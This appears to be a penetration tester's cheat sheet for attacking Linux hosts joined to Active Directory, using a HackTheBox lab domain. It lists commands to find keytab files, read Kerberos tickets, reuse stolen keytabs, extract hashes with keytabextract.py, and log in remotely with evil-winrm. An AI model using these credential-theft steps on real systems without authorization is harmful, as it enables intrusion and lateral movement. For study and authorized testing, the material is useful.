 # Linux AD Integration


## Check If Linux Machine is Domain Joined

```bash
$ realm list
$ ps -ef | grep -i "winbind\|sssd"

```

## Search Keytab

```bash
$ find / -name *.keytab -ls 2>/dev/null
$ find / -name *keytab* -ls 2>/dev/null
```

`/etc/krb5.keytab --> linux$@manesec.com`

## Current Ticket

```bash
$ env | grep -i krb5
$ klist 
$ klist -k -t 
```


## Use Ticket

```bash
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/xxx/carlos.keytab
$ smbclient //dc01/carlos -k -c ls

$ export KRB5CCNAME=xxx.ccache
```

## Extract hash from keytab

```bash
$ python3 /opt/keytabextract.py /opt/xxx/carlos.keytab 
$ su - carlos@inlanefreight.htb
```

## evil-winrm with Kerberos

```bash
$ sudo apt-get install krb5-user -y
$ sudo dpkg-reconfigure krb5-config
$ cat /etc/krb5.conf
[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>

$ kinit username
$ klist
$ evil-winrm -i dc01 -r inlanefreight.htb
```